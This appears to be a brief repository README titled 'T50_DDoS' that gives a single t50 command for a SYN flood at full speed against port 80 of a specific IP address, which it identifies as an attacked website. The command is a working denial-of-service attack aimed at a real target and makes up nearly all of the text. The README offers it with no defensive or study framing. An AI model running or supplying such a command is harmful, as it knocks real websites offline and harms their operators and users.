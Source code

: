 # T50_DDoS

* Attack with Rodrigo Leal and t50.

# Command

* sudo t50 104.236.17.122 --flood -S --turbo --dport 80

* The 104.236.17.122 is the IP number of attacked website.

# A great hug to Ricardo
